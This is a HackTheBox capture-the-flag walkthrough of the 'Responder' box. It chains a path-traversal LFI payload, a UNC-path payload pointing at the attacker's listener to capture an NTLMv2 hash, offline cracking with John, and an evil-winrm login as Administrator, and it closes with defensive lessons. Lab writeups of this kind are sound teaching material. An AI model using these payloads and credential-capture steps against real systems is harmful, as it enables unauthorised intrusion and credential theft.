




# Responder — HackTheBox Writeup

Responder is a Very Easy Windows box that chains a classic Local File Inclusion vulnerability with NTLM hash capture to gain a foothold via WinRM. It's an excellent introduction to how Windows authentication can be weaponized against itself when a server blindly follows UNC paths.

---

## Overview

The attack path here is beautifully simple once you see it: a PHP web application has an LFI vulnerability in its language selector, Windows will attempt NTLM authentication when it tries to access a UNC path, and we're sitting there with Responder ready to catch the hash. Crack the hash, log in over WinRM, read the flag. Along the way I hit a firewall issue that was a useful reminder about VPN interface trust zones — more on that later.

---

## Reconnaissance

### Port Scanning

Starting with a standard Nmap service scan:

```bash
nmap -sV -p- --min-rate 5000 <TARGET>
```



Three ports stand out immediately. Port 80 is Apache running PHP on Windows — a XAMPP stack by the look of it. Port 5985 is WinRM, which is immediately interesting: if we can get any valid credentials, we can use `evil-winrm` to get a shell. Port 7680 is likely WSUS delivery optimization and not relevant here.

### Web Enumeration

Navigating to `http://<TARGET>` redirects us to `http://unika.htb`. The virtual host isn't resolving, so we add it to `/etc/hosts`:

```bash
echo "<TARGET> unika.htb" | sudo tee -a /etc/hosts
```

With that in place, the site loads — a basic business website with a language selector in the navigation. Clicking through to different languages reveals a suspicious URL pattern:

```
http://unika.htb/index.php?page=french.html
```

The `page` parameter is directly including a file by name. This screams Local File Inclusion. On a Windows XAMPP stack, the classic test is trying to read the hosts file:

```
http://unika.htb/index.php?page=../../../../windows/system32/drivers/etc/hosts
```



LFI confirmed. We can read arbitrary files on the system. The web root is at `C:\xampp\htdocs\`, which we can verify by reading `index.php` itself. Now the question is: how do we turn file read into code execution?

---

## Foothold

### From LFI to NTLM Hash Capture

On Windows, PHP's `include()` and `require()` don't just handle local paths — they also handle UNC paths like `\\server\share\file`. When PHP tries to access a UNC path, Windows kicks off an SMB connection to the specified host, and as part of that SMB handshake, Windows will *automatically* try to authenticate using the current user's NTLM credentials.

This means if we point the `page` parameter at a UNC path pointing back to our machine, and we have something listening to capture that authentication attempt, we'll receive an NTLMv2 hash.

That's exactly what [Responder](https://github.com/lgandx/Responder) does — it spins up a fake SMB server (among other things) and logs every authentication attempt.

### Setting Up Responder

One important operational note: Responder needs to listen on the `tun0` interface (the HTB VPN interface). I run my tooling inside a Distrobox container, but `tun0` is a host-level interface and isn't accessible from inside the container. **Responder must run on the host.**

I also hit an issue where packets were arriving at my machine but getting silently dropped by `firewalld` (using nftables, as this is Nobara Linux). I confirmed this with `tcpdump` — I could see the SYN packets from the target arriving on `tun0`, but no SYN-ACK was going back. The fix is to add `tun0` to the trusted firewall zone:

```bash
sudo firewall-cmd --zone=trusted --add-interface=tun0
```

This is worth remembering any time you're doing anything that requires inbound connections over the HTB VPN — Responder, reverse shells, anything. Without this, your firewall will silently eat the connections.

With that sorted, start Responder on the host:

```bash
sudo python3 Responder.py -I tun0 -v
```

Now trigger the UNC path inclusion via the LFI. Replace `<VPN_IP>` with your tun0 IP:

```
http://unika.htb/index.php?page=//<VPN_IP>/test
```

The share `test` doesn't need to exist — we just need the Windows box to *attempt* to authenticate. Within a second or two, Responder lights up:



We have an NTLMv2 hash for the Administrator account.

### Cracking the Hash

NTLMv2 hashes can't be used directly for pass-the-hash attacks (that requires the NT hash), but they can be cracked offline if the password is weak. Save the full hash to a file and run it through John the Ripper with the rockyou wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



Password is `badminton`. Not exactly enterprise-grade.

### WinRM Shell via evil-winrm

We spotted WinRM on port 5985 during enumeration. With valid credentials, `evil-winrm` gives us an interactive PowerShell session:

```bash
evil-winrm -i <TARGET> -u Administrator -p badminton
```

We're in. A quick look around and the flag is sitting on mike's desktop:

```powershell
type C:\Users\mike\Desktop\flag.txt
```

Flag: `[redacted]`

---

## Lessons Learned

**LFI + UNC paths is a classic Windows gotcha.** Whenever you see a file inclusion vulnerability on a Windows host, think about UNC paths. PHP, and other runtimes, will happily try to fetch `\\attacker\share` over SMB, and Windows will helpfully authenticate with NTLMv2 along the way. This isn't a niche edge case — it's a well-documented attack pattern that still works in the wild.

**Responder is powerful, but pay attention to your network stack.** The hash capture technique only works if the target can actually reach your machine. In CTF contexts, this means:
- Run Responder on the interface facing the target (usually `tun0`)
- Make sure your host firewall isn't blocking inbound SMB (TCP 445)
- If you're using containers (Docker, Distrobox, etc.), run network tools that need inbound connections on the host, not inside the container

**Always add tun0 to your firewall's trusted zone when doing HTB.** The command is simple and prevents a lot of "why isn't my reverse shell connecting?" debugging:

```bash
sudo firewall-cmd --zone=trusted --add-interface=tun0
```

**WinRM is a reliable post-exploitation path on Windows.** Port 5985 (WinRM HTTP) or 5986 (WinRM HTTPS) means `evil-winrm` can give you a full shell with valid credentials. It's often less likely to be blocked than RDP and gives you a cleaner scripting interface anyway.

**NTLMv2 hashes are crackable — but only as fast as your wordlist is good.** `badminton` fell in seconds against rockyou. A strong password would have stopped us cold here. This is a good reminder that credential theft isn't automatically game over for the defender — password complexity still matters even when the hash is exposed.
